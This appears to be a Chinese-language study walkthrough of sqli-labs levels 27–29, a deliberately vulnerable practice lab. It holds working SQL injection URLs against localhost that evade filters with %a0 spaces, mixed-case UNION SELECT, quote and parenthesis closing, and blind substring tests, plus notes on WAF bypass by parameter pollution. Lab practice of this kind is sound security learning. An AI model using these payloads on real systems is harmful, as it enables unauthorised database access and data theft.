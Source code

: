 另外需要提示，由于存在limit 0,1 所以前面的必须不成长的条件，否则显示前条件的结果，**不知道为什么id=-1 不可以报错**，可能是因为过滤了-导致-1即为1？因为1和-1的结果是一样的。。。 

http://127.0.0.1/sqli-labs/Less-27?id='%a0uNiOn%a0seLeCt%a0(1),(database()),(3)' 



##第27a关 

双引号闭合，使用%a0代替空格 

127.0.0.1/sqli-labs/Less-27a?id=1"and%a0left(database(),8)='security'" 



##第28关 

单引号加括号，过滤了直接的union select ,可以使用union%a0select 来绕过 

由于存在括号和单引号，所以需要同时闭合，同时也要构造后面的(‘ ‘), 仍然需要使用and去构造后面的闭合。 

源代码：$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; 

http://127.0.0.1/sqli-labs/Less-28?id=')union%a0select%a0(1),(database()),(3)%a0and%a0('1')=(‘1 

亦可 

')union%a0select%a0(1),(database()),(3)%a0and%a0('')=(' 



##第28a关 

http://127.0.0.1/sqli-labs/Less-28a?id=1')%a0and%a0ascii(substr(database(),1,1))=115 %a0and%a0('')=(' 



##第29关 

index.php: http://127.0.0.1/sqli-labs/Less-29?id=-11111' union select 1,user(),3’ 

http://127.0.0.1/sqli-labs/Less-29/login.php **没做出来** 



函数 

explode() 函数把字符串打散为数组。 



**29-31 的login.php 均为绕过waf, ,index.php 跟普通注入一样，存在waf的页面时login.php** 

**index.php类页面不再分析，主要分析login.php，因为login.php 才使用waf**



##第29关 

login.php 

单引号+HPP 

Waf 只能数字，经过两个过滤函数，java_implimentation() whitelist() 

​    $qs = $_SERVER['QUERY_STRING']; 

​    $hint=$qs; 
